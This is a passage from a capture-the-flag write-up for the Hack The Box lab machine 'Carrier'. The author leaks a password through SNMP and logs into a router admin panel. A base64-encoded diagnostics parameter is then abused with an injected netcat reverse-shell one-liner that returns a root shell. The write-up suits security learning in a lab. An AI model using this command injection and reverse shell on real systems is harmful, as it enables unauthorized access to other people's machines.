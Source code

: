 ```bash
root@kali:~/Carrier# snmpwalk -v2c -c public 10.10.10.105 .1
Created directory: /var/lib/snmp/mib_indexes
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
iso.3.6.1.2.1.47.1.1.1.1.11 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

Looks like the password. I will use (`admin:NET_45JDX23`) as the login and see where it takes me.

![adminlogin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/loginasadmin.png)

Excellent! Going to the diagnostics page, I see a funny `ps` command like output.

![diagpage]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/diagpage.png)

When I view the page source, I could see a base64 encoded value.

![base64]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/carrier/base64.png)

```bash
root@kali:~/Carrier# echo "cXVhZ2dh" | base64 -d
quagga
```

Using Burpsuite as a proxy, I got the following request...

```http
POST /diag.php HTTP/1.1
Host: 10.10.10.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.105/diag.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Cookie: PHPSESSID=forvn6e8kjv4bkdrnb874q2026
Connection: close
Upgrade-Insecure-Requests: 1

check=cXVhZ2dh
```

The `check` parameter gets value `quagga` and then displays the diagnostics for that process. So, if we did something like `quagga; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <myip> 4444 >/tmp/f` as the value for check parameter and start a `ncat` listener on my machine, I should get a shell. Let's try it (Don't forget to convert the command to Base64).

```bash
root@kali:~/Carrier# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.10.105] 33452
whoami
root
ls
stuff
test_intercept.pcap
user.txt
cat user.txt
56******************************
```
